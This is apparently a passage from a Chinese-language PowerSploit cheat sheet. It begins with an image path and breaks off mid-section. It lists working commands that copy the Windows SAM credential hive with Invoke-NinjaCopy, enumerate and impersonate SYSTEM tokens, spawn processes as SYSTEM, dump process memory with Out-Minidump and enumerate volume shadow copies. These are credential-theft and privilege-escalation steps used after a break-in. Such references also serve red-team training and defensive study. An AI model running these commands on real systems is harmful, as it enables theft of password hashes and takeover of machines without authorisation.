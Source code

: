 ```powershell
Invoke-NinjaCopy -Path C:\Windows\System32\config\SAM -LocalDestination .\SAM.hive
```

####  Invoke-TokenManipulation

**参考**
>https://clymb3r.wordpress.com/2013/11/03/powershell-and-token-impersonation/

**示例**
**枚举唯一 可用的令牌**

```powershell
Invoke-TokenManipulation -Enumerate
```
**枚举所有的令牌（包括不唯一的与通过网络登陆所创建的令牌）**

```powershell
Invoke-TokenManipulation -ShowAll
```
**使用SYSTEM用户的令牌创建一个进程**

```powershell
Invoke-TokenManipulation -CreateProcess "calc.exe" -Username "NT AUTHORITY\SYSTEM"
```
这里也可以通过ID来指定一个Token

```powershell
Invoke-TokenManipulation -CreateProcess "calc.exe" -ProcessId "1234"
```
那么这里会使用进程ID1234的会话来启动一个进程

**使当前的线程令牌模仿SYSTEM用户**

```powershell
Invoke-TokenManipulation -ImpersonateUser -Username "nt authority\system"
```

#### Out-Minidump
dump指定进程完整的内存镜像

**示例**

```powershell
Out-Minidump -Process (Get-Process -Id 2612) -DumpFilePath .\
```

#### VolumeShadowCopyTools
卷影拷贝工具
##### Get-VolumeShadowCopy
列出所有卷影拷贝的路径
需要管理员权限
**示例**

```powershell
Get-VolumeShadowCopy
```

##### New-VolumeShadowCopy
新建卷影拷贝
